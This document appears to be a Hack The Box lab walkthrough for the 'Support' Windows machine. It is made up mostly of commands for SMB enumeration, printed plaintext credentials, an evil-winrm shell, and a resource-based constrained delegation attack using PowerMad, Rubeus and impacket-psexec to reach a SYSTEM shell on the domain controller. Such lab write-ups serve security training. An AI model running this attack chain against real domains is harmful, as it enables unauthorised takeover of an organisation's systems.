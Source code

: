 # Support - HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Support-green?logo=hackthebox)](https://app.hackthebox.com/machines/484)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

This writeup covers the full exploitation of the Support machine on Hack The Box, which involves enumerating SMB shares, reverse engineering a .NET executable to extract LDAP credentials, performing LDAP enumeration, gaining a foothold via WinRM, and escalating privileges using a Resource-Based Constrained Delegation (RBCD) attack to compromise the Domain Controller as Administrator.

---

## Table of Contents

- [Enumeration and Initial Access](#enumeration-and-initial-access)  
- [Reverse Engineering and Credential Extraction](#reverse-engineering-and-credential-extraction)  
- [LDAP Interaction and Foothold](#ldap-interaction-and-foothold)  
- [Active Directory Enumeration and Relationship Mapping](#active-directory-enumeration-and-relationship-mapping)  
- [Privilege Escalation via Resource-Based Constrained Delegation (RBCD)](#privilege-escalation-via-resource-based-constrained-delegation-rbcd)  
- [Kerberos Ticket Forging with Rubeus](#kerberos-ticket-forging-with-rubeus)  
- [Ticket Conversion and Getting SYSTEM Shell](#ticket-conversion-and-getting-system-shell)  
- [Stepwise PoC](#stepwise-poc)
- [Tools Summary](#tools-summary)

---

## Enumeration and Initial Access

**Scan all ports at high speed to detect open services**

`ports=$(nmap -p- --min-rate=1000 -T4 10.129.125.233 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`

**Scan the discovered ports with default scripts and service detection**

`nmap -p$ports -sC -sV 10.129.125.233`

**List available SMB shares**

`smbclient -L \10.129.125.233\`

**Connect anonymously to 'support-tools' SMB share**

`smbclient \10.129.241.189\support-tools`

**List files in the share**

`dir`

**Download UserInfo.exe.zip for analysis**

`get UserInfo.exe.zip`

**Extract the downloaded archive**

`unzip UserInfo.exe.zip`

**Download ILSpy to reverse engineer .NET executable**

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
```
---

## Reverse Engineering and Credential Extraction

**Decrypt the password using a Python script (PassDecoder.py)**
```
python3 PassDecoder.py
Output:
Username: ldap@support.htb
Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
**Add hostname mapping for LDAP resolution**

`echo '10.129.113.162 support.htb' | sudo tee -a /etc/hosts`

---

## LDAP Interaction and Foothold

- Connect with Apache Directory Studio using extracted credentials:

  - Username: `support`  
  - Password: `Ironside47pleasure40Watchful`

- Remote shell to the machine via WinRM:
`evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb`

- Query domain information and group memberships:

```
Get-ADDomain
whoami /groups
```
- Add domain controller hostname to hosts file:
`echo '10.129.113.162 dc.support.htb' | sudo tee -a /etc/hosts`

---

## Active Directory Enumeration and Relationship Mapping

**Run BloodHound enumeration**

`bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.241.189 -c all --zip`

---

## Privilege Escalation via Resource-Based Constrained Delegation (RBCD)

**Import the PowerMad module for machine account manipulation**

`Import-Module .\Powermad.ps1`

**Add a fake computer account with a password**

`New-MachineAccount -MachineAccount FAKECOMP1 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)`

**Get details, especially the SID, of the new computer account**

`Get-ADComputer -identity FAKECOMP1`

**Configure delegation on the Domain Controller to allow the fake computer to impersonatev**

`Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKECOMP1$`

**Verify the delegation change**

`Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount`

---

## Kerberos Ticket Forging with Rubeus

**Generate the NTLM hash for the fake computer password**
```
./Rubeus.exe hash /password:Password123! /user:FAKECOMP1$ /domain:support.htb
Sample output hash: 2B576ACBE6BCFDA7294D6BD18041B8FE
```

**Request and inject a Kerberos ticket impersonating Administrator**

`./Rubeus.exe s4u /user:FAKECOMP1$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt`

---

## Ticket Conversion and Getting SYSTEM Shell

**Remove all line breaks and spaces from the base64 ticket, save it as .b64**

`echo "BASE64_TICKET_STRING_HERE" | tr -d '\n\r ' > ticket.b64`

**Decode the base64 ticket to binary .kirbi format**

`base64 -d ticket.b64 > ticket.kirbi`

**Convert the .kirbi ticket to a .ccache file usable by Impacket**

`impacket-ticketConverter ticket.kirbi ticket.ccache`

**Use the ccache ticket with Impacket’s psexec to get SYSTEM shell on domain controller**

`KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass`

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1572" height="824" alt="32" src="https://github.com/user-attachments/assets/d4fb9f6a-aebf-4bb7-8480-af2fda02ce54" />
<img width="1114" height="465" alt="31" src="https://github.com/user-attachments/assets/8530b13d-eca8-4fbf-bcd7-c24e0aa2a334" />
<img width="1467" height="571" alt="30" src="https://github.com/user-attachments/assets/4b767b63-826f-4e11-961f-b1ff61f44cb3" />
<img width="1849" height="753" alt="29" src="https://github.com/user-attachments/assets/1cf547fc-3f03-46ac-bce9-9b23b92a2864" />
<img width="1003" height="213" alt="28" src="https://github.com/user-attachments/assets/1781f208-0130-4435-9d69-dab6578c1f41" />
<img width="952" height="810" alt="27" src="https://github.com/user-attachments/assets/b3aba4cf-6bb3-4963-91e4-428a0a175b36" />
<img width="1920" height="884" alt="26" src="https://github.com/user-attachments/assets/6c150a64-46ec-433d-abaa-0db6ffa32209" />
<img width="1920" height="897" alt="25" src="https://github.com/user-attachments/assets/9da4c318-729a-44e3-98d2-2afe0cd799aa" />
<img width="1920" height="771" alt="24" src="https://github.com/user-attachments/assets/ad6ec93d-78dc-4668-9991-f4f46ba75c46" />
<img width="676" height="404" alt="23" src="https://github.com/user-attachments/assets/2f93083a-e838-41b2-8cee-d39854d72b1e" />
<img width="423" height="51" alt="22" src="https://github.com/user-attachments/assets/ca20c601-f7c4-4cd0-9814-35c6f0ffbcc8" />
<img width="891" height="101" alt="21" src="https://github.com/user-attachments/assets/44b43841-3d26-4b03-b38e-bdc3f349a4ed" />
<img width="1169" height="822" alt="20" src="https://github.com/user-attachments/assets/5db4b74c-c89e-457f-993f-ce5f0b02869f" />
<img width="1895" height="852" alt="19" src="https://github.com/user-attachments/assets/9b8bfdcf-6133-4cd6-9669-fcefbb6b76e5" />
<img width="749" height="870" alt="18" src="https://github.com/user-attachments/assets/d9891e99-25b3-442c-adbc-e0642e7dfb22" />
<img width="1816" height="763" alt="17" src="https://github.com/user-attachments/assets/f8384c0a-f625-44e5-b2ba-f4ebddfb6c30" />
<img width="1848" height="807" alt="16" src="https://github.com/user-attachments/assets/b3e23080-366d-436a-abda-f017f0b1cb74" />
<img width="1004" height="510" alt="15" src="https://github.com/user-attachments/assets/df15d2a2-69b5-4225-a661-b6b66b99abc5" />
<img width="1178" height="815" alt="14" src="https://github.com/user-attachments/assets/81cbf54c-f800-44aa-a9be-d8f698cbf129" />
<img width="864" height="118" alt="13" src="https://github.com/user-attachments/assets/807803f7-7d65-4068-a6b8-01e36a789e67" />
<img width="1911" height="789" alt="12" src="https://github.com/user-attachments/assets/6836a971-c6df-4f28-ae04-837d2c796475" />
<img width="991" height="685" alt="11" src="https://github.com/user-attachments/assets/f558fab8-2406-4680-ad13-ece8413027f3" />
<img width="1014" height="467" alt="10" src="https://github.com/user-attachments/assets/b3d27fc1-6d23-4c5a-a9a2-ffe7fcc1fc72" />
<img width="984" height="391" alt="9" src="https://github.com/user-attachments/assets/75fc7c91-1abc-4485-9505-fdebbb4a1491" />
<img width="1365" height="507" alt="8" src="https://github.com/user-attachments/assets/96c4a2ed-64b1-4125-b520-800a183c2060" />
<img width="968" height="210" alt="7" src="https://github.com/user-attachments/assets/fb705c99-075d-4af8-b1a8-e3aa50f5a504" />
<img width="1460" height="698" alt="6" src="https://github.com/user-attachments/assets/66fa8c8c-2d3c-4a9c-8f65-7ee4593fe022" />
<img width="1897" height="780" alt="5" src="https://github.com/user-attachments/assets/bafd9087-6de3-4158-a1cb-775135fd683f" />
<img width="1092" height="838" alt="4" src="https://github.com/user-attachments/assets/6b59b6c5-e6d2-4e02-8a51-283815be340c" />
<img width="756" height="68" alt="3" src="https://github.com/user-attachments/assets/f9ad9360-f2c8-48dd-be15-81384ca5188c" />
<img width="956" height="212" alt="2" src="https://github.com/user-attachments/assets/1016e370-7442-47d2-97bb-59a6fbca1424" />
<img width="1249" height="564" alt="1" src="https://github.com/user-attachments/assets/ab04cdd3-94d2-4c7d-92a0-fc046b7e7b89" />
</details>

---

## Tools Summary

| Tool                     | Purpose                                           |
|--------------------------|--------------------------------------------------|
| `nmap`, `smbclient`      | Port and SMB share enumeration                    |
| `ldapsearch`, ApacheDS   | LDAP enumeration and user discovery               |
| `evil-winrm`             | Remote shell access over WinRM                     |
| BloodHound, SharpHound   | AD relationship and privilege graph analysis      |
| PowerMad, PowerView      | AD machine account manipulation and enumeration   |
| Rubeus                   | Kerberos ticket manipulation and forging          |
| Impacket-ticketConverter | Kerberos ticket format conversion                   |
| `impacket-psexec`        | Remote command execution with Kerberos ticket     |
| ILSpy                    | Decompile .NET executables                          |
| Wine                     | Run Windows binaries on Linux                       |

---

This walkthrough enables anyone to follow and reproduce the full exploitation of the Support HTB machine from enumeration to full domain compromise.

--- 







